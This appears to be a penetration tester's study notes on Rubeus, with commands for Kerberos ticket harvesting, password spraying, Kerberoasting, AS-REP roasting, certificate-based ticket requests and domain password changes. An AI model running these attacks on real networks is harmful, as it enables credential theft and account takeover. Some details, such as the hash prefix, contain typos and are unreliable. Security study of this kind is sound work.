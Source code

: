 # Using Rubeus

author:: Nathan Acks  
date:: 2022-05-11

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux's `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the
# current machine. Probably works best when run on a
# domain controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users
# and generate a ticket giving ticket for successful
# authentications. (Can trigger account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known
# kerberoastable accounts using Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use Hashcat to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` -> `$kerb5asrep$23$`) and then use mode 18200.

## Using a Certificate to Request a Ticket

```powershell
# Request a ticket using a certificate from AD CS.
#
Rubeus.exe asktgt /user:$USER \
                  /enctype:aes256 \
                  /certificate:$CERTIFICATE_FILE \
                  /password:$CERTIFICATE_FILE_PASSWORD \
                  /outfile:$TICKET_FILE \
                  /domain:$DOMAIN \
                  /dc:$DC_IP_ADDRESS
```

This is very useful if we've used an AD CS misconfiguration as described by SpectreOps' "Certified Pre-Owned" research to forge a certificate that's valid for another user.

## Change a User's Password

```powershell
# We can use Rubeus to change the password for domain
# users so long as our ticket is for a user with
# permission to do so (generally the user themselves or
# a domain admin.
#
Rubeus.exe changepw /ticket:$TICKET_FILE \
                    /new:$NEW_PASSWORD \
                    /dc:$DC_IP_ADDRESS \
                    /targetuser:$DOMAIN\$USER
```

## References

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)
* [2022-05-10 - TryHackMe: Jr. Penetration Tester (Supplements)](../log/2022-05-10-tryhackme-jr-penetration-tester-supplements.md)
* [SpectreOps: Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
* [Using "certutil"](certutil.md)
